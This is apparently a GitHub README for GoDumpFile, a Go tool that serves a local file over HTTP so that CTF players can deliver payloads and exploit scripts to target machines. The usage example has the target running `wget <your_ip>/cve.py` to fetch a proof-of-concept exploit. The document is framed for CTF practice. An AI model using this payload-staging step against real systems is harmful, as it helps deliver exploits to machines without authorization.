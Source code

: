 # GoDumpFile

GoDumpFile is an executable that opens a HTTP GET endpoint linked to a file or folder on your machine, so you can just download the wanted file from another computer on your local network (or distant if the port is opened on the internet).

It's mainly used to dump payload and/or scripts using curl and wget, to use a CVE in a remote machine. 
Of course, it's intended to be used during CTFs and not on actual vulnerable devices.

Please add a star if you like it :)


## How to install it

You can either download the code in the /cmd/ folder of this repository and then build it using `go build ./cmd/main/main.go`, or, if you're somewhat lazy you can also download the executable with `wget https://github.com/ThrynSec/GoDumpFile/blob/main/executables/GoDumpFile`


## How to use it

You have to call `/path/to/GoDumpFile/ ` followed by the arguments `-file path/to/file-or-folder -name name_for_the_endpoint`

Example :
`/home/JeanJean/Downloads/GoDumpFile -file /home/JeanJean/Downloads/poc.py -name cve.py` will create `<your_ip>/cve.py`, and `wget <your_ip>/cve.py` on the target machine will download /home/JeanJean/Downloads/poc.py on it, renamed as "cve.py"

Additionnal optional flags :
`-port <int>` will open the endpoint on the given name. By default, it uses the port 80.


## Todo
* Adding /package/GoDumpFile.deb to easily install GoDumpFile in Path
* Rearranging my folders because /cmd/internals is an abomination (sorry guys)
* Creating a nice logo :)